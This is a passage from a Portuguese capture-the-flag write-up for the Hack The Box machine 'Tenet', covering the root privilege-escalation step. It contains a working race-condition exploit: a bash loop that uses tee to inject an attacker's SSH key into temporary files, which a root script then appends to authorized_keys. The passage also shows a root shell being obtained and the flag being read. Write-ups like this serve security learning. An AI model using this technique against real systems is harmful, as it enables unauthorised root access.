 ```bash
    checkFile $tmpName
    /bin/cat $tmpName >>/root/.ssh/authorized_keys
    /bin/rm $tmpName
}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded
```

Analisando o script acima, notei uma possibilidade de hijack, onde na função "addKey" é criado um arquivo temporario, incluindo o conteúdo da chave pública e, após isso, seu conteúdo é adicionado no `/root/.ssh/authorized_keys`, possivelmente nos permitindo modificar este arquivo em tempo de execução para incluir outra chave SSH no lugar desta.

O desafio nesta parte é prever o nome do arquivo ssh em `/tmp`, mas que ao buscar por uma forma de adicionar um valor em múltiplos arquivos, o comando `tee` foi a melhor opção. O script abaixo foi criado e colocado em execução para infinitamente incluir o conteúdo de uma chave criada por mim em quaisquer arquivos que possuíssem o nome `ssh-*` em `/tmp`.

```bash
#!/bin/bash
while true; do
        echo "ssh-rsa AAAA..............BBBB= root@ubuntu" | tee /tmp/ssh-* 2> /dev/null;
done
```

Com o script acima em execução, executado o comando para habilitar o SSH para o usuário `root` e logo na sequência, o comando ssh para se conectar com a chave privada em nossa posse, onde obtivemos sucesso para conectar nesta máquina utilizando o SSH e obter a flag de root :smiley:

```bash
neil@tenet:/tmp$ sudo  /usr/local/bin/enableSSH.sh
Successfully added root@ubuntu to authorized_keys file!
neil@tenet:/tmp$ ssh -i tenet root@tenet.htb
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)
[...]
root@tenet:~# id
uid=0(root) gid=0(root) groups=0(root)
root@tenet:~# cat /root/root.txt
b05e57e997cda49b47757cd3f0f9ac43
```

Espero que tenham gostado!

Vejo vocês no próximo post! :smile:
